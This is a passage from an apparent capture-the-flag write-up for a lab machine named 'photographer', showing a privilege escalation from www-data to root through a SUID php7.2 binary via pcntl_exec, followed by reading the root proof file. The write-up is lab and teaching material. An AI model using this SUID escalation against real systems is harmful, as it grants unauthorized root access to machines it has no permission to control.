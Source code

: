 First I will check [GTFOBins](https://gtfobins.github.io), searching PHP.

![gtfobins](/assets/images/photographer/phpsuid.png)

Lets give it a go.

```highlight
www-data@photographer:/tmp$ CMD="/bin/sh"
www-data@photographer:/tmp$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root
#
```

We have root! Lets grab the flag.


```highlight
# 
# cd /root
# cat proof.txt
                                                                
                                .:/://::::///:-`                
                            -/++:+`:--:o:  oo.-/+/:`            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`         
                       :o:``oyo/o`. `      ```/-so:+--+/`       
                     -o:-`yh//.                 `./ys/-.o/      
                    ++.-ys/:/y-                  /s-:/+/:/o`    
                   o/ :yo-:hNN                   .MNs./+o--s`   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s. 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +- 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o. 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h` 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-         
                           -/+/-:-/y+/d:yh-o:+--/+/:`           
                              `-///////////////:`               
                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00{REDACTED}
#
```

